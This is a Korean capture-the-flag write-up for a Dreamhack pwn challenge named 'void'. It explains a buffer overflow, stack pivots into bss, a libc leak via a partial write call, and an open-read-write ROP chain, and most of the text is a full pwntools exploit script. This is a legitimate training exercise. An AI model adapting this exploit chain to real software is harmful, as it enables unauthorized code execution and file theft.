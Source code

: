 익스 코드를 봐도 내가 아니며 코드의 의도를 알 수 없기 때문에 흐름을 써보겠다.
`bof`가 조금 나고 카나리가 없다. 바이너리 pie가 없긴 한데 쓸만한 가젯이 없다. 일단 내가 보기엔 없어보였다. 그래서 `pop rdi` 문제처럼 `bss`에 `libc` 함수를 하나 만들어서 쓴다. 여러 가지가 가능할 거 같아서 어떤 함수를 만들까 고민했는데 간단하게 `write` 함수를 만들어서 `libc` 릭을 할려고 했다.
`write` 함수를 실행할 수 있다고 하자. 그럼 `libc` 함수를 출력해야 하므로 `rdi`, `rsi`, `rdx`를 변경해야 한다. `rdi`는 `main`에서 변조가 가능한데, 나머지 두 개가 문제다. `write` 내부를 보면 다음과 같은 로직이 있다.
```
0x0000000000114a44 <+36>:    mov    QWORD PTR [rsp+0x18],rdx
0x0000000000114a49 <+41>:    mov    QWORD PTR [rsp+0x10],rsi
0x0000000000114a4e <+46>:    mov    DWORD PTR [rsp+0x8],edi
0x0000000000114a52 <+50>:    call   0x90a70
0x0000000000114a57 <+55>:    mov    rdx,QWORD PTR [rsp+0x18]
0x0000000000114a5c <+60>:    mov    rsi,QWORD PTR [rsp+0x10]
0x0000000000114a61 <+65>:    mov    r8d,eax
0x0000000000114a64 <+68>:    mov    edi,DWORD PTR [rsp+0x8]
0x0000000000114a68 <+72>:    mov    eax,0x1
0x0000000000114a6d <+77>:    syscall
```

윗 부분과 아랫 부분이 어떤 행동을 하는지 감이 올 것이다. 여기서 `rdx`랑 `rsi`를 불러오는 `bss`에 값을 입력하고 `write + 46`으로 뛰면 `rsi`, `rdx`를 원하는대로 설정할 수 있다.
근데 이러면
`add dword ptr [rbp - 0x3d], ebx ; nop ; ret`
이 가젯을 4번 써야 한다. 정말 귀찮았다.

`libc` 릭이 끝났다. 이제 `pop rsi ; ret`과 `syscall` 가젯이 있다. 근데 `pop rdi ; ret` 가젯이 없다. 사실 있는데 필자가 이 문제를 8시간 째 푸는 중이라 정신이 없는 상태에서
`ROPgadget --binary libc.so.6 | grep "pop rdx ; ret"`
이렇게만 찾고 없어서 그냥 없다고 착각해버렸다. 그래서 `pop rdx` 가젯 없이 orw 코드를 짜야했다. `open`은 `rdx`를 안 쓰니까 그냥 하고, `bss`에 값을 의도적으로 넣어서 스택 이동을 생각해주면 `main`의 `read`를 방금 열은 `flag`파일을 읽는데 사용하고 다시 `ROP`를 할 수 있게 된다. `write`는 `rdx`가 필요해서 

# exploit

```python
from pwn import *
from time import *

context.terminal = ['tmux', 'splitw', '-h']

#p = process('./void')
p = remote('host1.dreamhack.games', 10710)
e = ELF('./void')
l = ELF('./libc.so.6')
bss = e.bss() + 0x1000
main = 0x4013C8
leave_ret = 0x40137e

def main_func(num : int, payload : bytes):
    sleep(0.5)
    p.sendline(str(num).encode())
    sleep(0.5)
    p.send(payload)

payload = b'a' * 0x70 + p64(bss + 0x3500) + p64(main + 0x32)
main_func(1, payload)

payload = b'a' * 0x70 + p64(bss + 0x2500) + p64(main + 0x32) + p64(bss + 0x1000) + p64(main + 8)
main_func(1, payload)

payload = b'a' * 0x70 + p64(bss + 0x1500) + p64(main + 0x32) + p64(bss + 0x3510) + p64(leave_ret)
main_func(1, payload)

payload = p64(main + 5) * 14 + p64(bss + 0x500) + p64(main + 0x32)
main_func(1, payload)

payload = b'a' * 0x70 + p64(bss + 0x700) + p64(main + 0x32)
main_func(1, payload)

payload = b'a' * 0x30 + (p64(bss + 0x5d0) + p64(main + 0x32)) + (p64(bss + 0x5e0) + p64(main + 0x32)) + b'a' * 0x10 + (p64(bss + 0x600) + p64(main + 0x32)) + p64(bss + 0x500) + p64(main + 0x1c) + p64(bss + 0x620) + p64(main + 0x32)
main_func(1, payload)

payload = b'a' * 0x70 + p64(bss + 0x700 + 0x10) + p64(leave_ret)
main_func(1, payload)

payload1 = (l.sym['write'] + 46 - (0x00007f3085641117 - 0x7f308552c000)) & ((1 << 32) - 1)
# 0x000000000040121c : add dword ptr [rbp - 0x3d], ebx ; nop ; ret
payload2 = b'a' * 0x70 + p64(0x406488 + 0x3d) + p64(0x000000000040121c) + p64(main)
main_func(payload1, payload2)

payload = b'a' * 0x70 + p64(0x4056e0) + p64(leave_ret)
main_func(1, payload)

payload1 = -0x19999999 & ((1 << 32) - 1)
payload2 = b'a' * 0x70 + p64(0x406494 + 0x3d) + p64(0x000000000040121c) + p64(main)
main_func(payload1, payload2)

payload = b'a' * 0x70 + p64(0x4056f0) + p64(leave_ret)
main_func(1, payload)

payload1 = (main - 0x99999999) & ((1 << 32) - 1)
payload2 = b'a' * 0x70 + p64(0x406490 + 0x3d) + p64(0x000000000040121c) + p64(main)
main_func(payload1, payload2)

payload = b'a' * 0x70 + p64(0x405710) + p64(leave_ret)
main_func(1, payload)

payload1 = 8
payload2 = b'a' * 0x70 + p64(0x4064a8 + 0x3d) + p64(0x000000000040121c) + p64(main)
main_func(payload1, payload2)

payload = b'a' * 0x70 + p64(bss + 0x700) + p64(main + 0x1c)
main_func(1, payload)

payload = b'a' * 0x70 + p64(bss + 0x500) + p64(main + 0x1c) + p64(bss + 0x620) + p64(main + 0x32)
main_func(1, payload)

payload = b'a' * 0x70 + p64(bss + 0x700 + 0x10) + p64(leave_ret)
main_func(1, payload)

payload1 = e.got['read']
payload2 = b'a' * 0x70 + p64(0x4064a0 + 0x3d) + p64(0x000000000040121c) + p64(main)
main_func(payload1, payload2)

payload = b'a' * 0x5c + p32(2 + 0x31337 - 1) + b'a' * 0x10 + p64(0x406480) + p64(leave_ret)
main_func(1, payload)
l.address = u64(p.recvn(8)) - l.sym['read']
print(hex(l.address))

pop_rax = l.address + 0x0000000000045eb0
pop_rdi = l.address + 0x000000000002a3e5
pop_rsi = l.address + 0x000000000002be51
syscall = l.address + 594838
xor_dh_80_syscall = l.address + 0x000000000009133b
ret = 0x000000000040101a

# flag : 0x4074c0
payload = p64(bss + 0x2510) + p64(pop_rdi) + p64(0x4064b8) + p64(pop_rsi) + p64(0) + p64(pop_rax) + p64(2) + p64(syscall) + p64(main + 0x50) + b'a' * 0x20 + (b'flag' + b'\x00' * 4) + p64(0x406450) + p64(leave_ret)
main_func(1, payload)

payload = p64(pop_rdi) + p64(2) + p64(pop_rsi) + p64(0x4074c0) + p64(pop_rax) + p64(1) + p64(xor_dh_80_syscall) + b'a' * 0x38 + p64(0x405fb0 - 8) + p64(leave_ret)
main_func(1, payload)
p.interactive()
```